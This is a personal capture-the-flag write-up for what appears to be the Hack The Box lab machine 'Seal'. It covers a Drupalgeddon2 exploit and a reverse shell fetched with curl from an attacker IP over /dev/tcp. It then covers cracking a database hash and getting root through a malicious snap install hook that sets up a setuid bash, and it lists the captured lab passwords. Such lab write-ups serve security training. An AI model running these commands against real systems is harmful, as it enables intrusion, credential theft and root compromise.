 # Enumeration 
10.129.48.89
## open ports

```
port 80
port 22
```


# Foothold 
![[Pasted image 20230302231552.png]]
It's a drupal website

![[Pasted image 20230302231655.png]]
![[Pasted image 20230302231903.png]]
looking into searchsploit
![[Pasted image 20230302232045.png]]
change url in the script
![[Pasted image 20230302232130.png]]
failed to confirm rest_endpoint so exploit won't work
found inside /scripts
![[Pasted image 20230302232740.png]]
trying other exploit
[drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
![[Pasted image 20230302234744.png]]

downloading some dependencies 
![[Pasted image 20230302234759.png]]
![[Pasted image 20230302234813.png]]
`sudo gem install require`
`sudo gem install highline`
![[Pasted image 20230302234857.png]]
and it worked
![[Pasted image 20230302234925.png]]
we got semi shell but we can get a better one using the uploaded shell
hosting a file that has a rev shell and executing it

```
bash -i >& /dev/tcp/10.10.16.12/443 0>&1 > shell.sh
curl http://10.10.16.12/shell.sh | sh
```

![[Pasted image 20230303005427.png]]

![[Pasted image 20230303005341.png]]
![[Pasted image 20230303005445.png]]
# Privesc 

## Apache -> brucetherealadmin

![[Pasted image 20230303005557.png]]

looking into website directories to find a config file 
found password in 
/var/www/html/sites/default/settings.php

![[Pasted image 20230303032434.png]]
![[Pasted image 20230303032701.png]]
cos shell is broken it will be painful to extract info but still worth trying
i have to spawn an error to crash sql and get the output
![[Pasted image 20230303032939.png]]
![[Pasted image 20230303033231.png]]
` .\hashcat.exe -m 7900 .\hash.txt .\rockyou.txt -O`
cracked!
## brucetherealadmin -> root
login failed
![[Pasted image 20230303033521.png]]
ssh worked
![[Pasted image 20230303033546.png]]
![[Pasted image 20230303033613.png]]
user can run sudo using snap install
inside [GTFObins](https://gtfobins.github.io/gtfobins/snap/)
![[Pasted image 20230303034020.png]]

created the package on my machine
![[Pasted image 20230303034152.png]]
sending .snap file to target
then ran sudo snap install ourfile.snap
![[Pasted image 20230303043254.png]]
now let's change COMMAND to something else
trying to set /bin/bash as a setuid but getting error
![[Pasted image 20230303043058.png]]
copying bash to other file and try to give it setuid and worked
```
COMMAND='chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash'
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

# On target
cp /bin/bash .
curl http://10.10.16.12/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```
![[Pasted image 20230303045324.png]]
# Loot
database 
	username: `drupaluser`
	password: `CQHEy@9M*m23gBVj`

brucetherealadmin user 
	username: `brucetherealadmin`
	password: `booboo`

---
Tags: #ctf
	Resources: [Seal](https://app.hackthebox.com/machines/358)
